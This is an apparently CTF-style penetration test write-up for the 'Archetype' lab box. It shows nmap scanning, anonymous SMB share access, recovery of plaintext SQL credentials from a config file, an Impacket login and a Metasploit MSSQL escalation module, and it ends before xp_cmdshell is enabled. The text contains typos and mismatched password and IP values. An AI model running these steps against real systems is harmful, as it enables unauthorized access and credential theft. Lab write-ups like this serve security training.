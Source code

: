 ###Pentest Report for Archetype Box
##CVSS 3.1 Score:8.1 (High)

#CWE-200: Exposure of Sensitive Information to an Unauthorized Actor
#CWE-306: Missing Authentication for Critical Function

Description: During our penetration test, we identified a Broken Access Control vulnerability via SMB, which allowed unauthorized access to sensitive data, including user credentials for the hosted database. Additionally, we discovered that the SQL server configuration lacked proper access controls, leading to the potential exposure of critical database information.

In further stages of the test, we successfully exploited these vulnerabilities to gain unauthorized access to the system, eventually escalating our privileges to administrative levels. This allowed us to retrieve user and admin flags, demonstrating the severity of these security weaknesses.

Impact: Weak acces control thought SMB service can lead to inadvertent exposure of sensitive data, such as user credentials for system access.

POC:

Begin the penetration test by conducting initial scans on the target system.


```
nmap -sV -sC 10.129.150.23
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-30 14:16 BST
Nmap scan report for 10.129.150.23
Host is up (0.062s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-09-30T13:12:57
|_Not valid after:  2053-09-30T13:12:57
|_ssl-date: 2023-09-30T13:17:03+00:00; +2s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-09-30T13:16:55
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-09-30T06:16:57-07:00
|_clock-skew: mean: 1h45m03s, deviation: 3h30m02s, median: 1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.68 seconds

We can se that ports are open and Mincrosoft SQL database is open on 1433 
```
Use the smbclient tool to enumerate SMB shares on the target machine.
```
Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```
Identify that the "backups" share is accessible without administrative privileges.
```
Access the "backups" share using smbclient.
smbclient -N  \\\\10.129.150.23\\backups
Try "help" to get a list of possible commands.
smb: \> 
smb: \> ls
  .                                   D        0  Mon Jan 20 12:20:57 2020
  ..                                  D        0  Mon Jan 20 12:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 12:23:02 2020

		5056511 blocks of size 4096. 2534633 blocks available
```
Download the "prod.disConfig" file using the "get" command to investigate its contents.
```
smb: \> get prod.dtsConfig 
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (1.7 KiloBytes/sec) (average 1.7 KiloBytes/sec)
smb: \>
```
Examine the contents of the "prod.disConfig" file and find authentication data for the user ***sql_svc*** with the password ***Mp13g4c0r23.***

```
$cat prod.dtsConfig 
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
```
Search for and locate the "mssqlclient.py" tool.
Use "mssqlclient.py" with the obtained credentials to successfully connect to the SQL Server.

```
python3 mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.150.23 -windows-auth
Impacket v0.12.0.dev1+20230928.173259.06217f05 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL (ARCHETYPE\sql_svc  dbo@master)> 
```
Discover that command execution on the machine requires elevated privileges, which are currently unavailable.
Decide to use Metasploit to escalate privileges to the administrative level.
```

Module options (auxiliary/admin/mssql/mssql_escalate_dbowner):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   PASSWORD             M3g4c0rp123      no        The password for the specified username
   RHOSTS               10.129.207.19    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                1433             yes       The target port (TCP)
   TDSENCRYPTION        false            yes       Use TLS/SSL for TDS data "Force Encryption"
   USERNAME             sql_svc          no        The username to authenticate as
   USE_WINDOWS_AUTHENT  true             yes       Use windows authentification (requires DOMAIN option set)


View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) auxiliary(admin/mssql/mssql_escalate_dbowner) >> exploit
[*] Running module against 10.129.207.19

[*] 10.129.207.19:1433 - Attempting to connect to the database server at 10.129.207.19:1433 as sql_svc...
[+] 10.129.207.19:1433 - Connected.
[*] 10.129.207.19:1433 - Checking if sql_svc has the sysadmin role...
[+] 10.129.207.19:1433 - sql_svc has the sysadmin role, no escalation required.
[*] Auxiliary module execution completed
[msf](Jobs:0 Agents:0) auxiliary(admin/mssql/mssql_escalate_dbowner) >> 

```
Identify that the "xp_cmdshell" command is turned off, preventing command execution.
Research and find the steps to reconfigure the "xp_cmdshell" configuration.
